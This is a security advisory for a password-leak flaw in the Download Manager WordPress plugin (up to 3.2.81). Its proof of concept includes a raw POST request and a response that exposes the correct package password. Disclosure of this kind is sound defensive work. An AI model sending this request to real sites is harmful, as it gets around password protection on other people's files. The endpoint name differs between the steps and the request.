 # Download Manager  < 3.2.81 - Leakage of passwords for any password-protected package

### Description

The Download Manager WordPress plugin, up to version 3.2.81, is vulnerable to an issue where an attacker attempting to download any password-protected package file can, upon entering an incorrect password, receive the correct password in the response. This allows the attacker to download any protected file without the appropriate credentials.

### Proof of Concept

```
- Create a password protected package containing one or more files.
- Navigate to the download page of the package (e.g. `/download/packagetest`)
- Inspect the "Download" button beside one of the packaged files.
- Send a POST request to `/wp-json/wpdm/validate-filepass`:

POST /index.php/wp-json/wpdm/validate-password HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/119.0zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Content-Length: 85

__wpdm_ID=22&dataType=json&execute=wpdm_getlink&action=wpdm_ajax_call&password=123322

- The response will look like the following:

{"success":false,"message":"Wrong Password! &nbsp; <span><i class='fas fa-redo'><\/i> Try Again <\/span>","op":"123123"}

"op":"123123" is the correct password.

- When we enter an incorrect password, it returns a correct password..
```
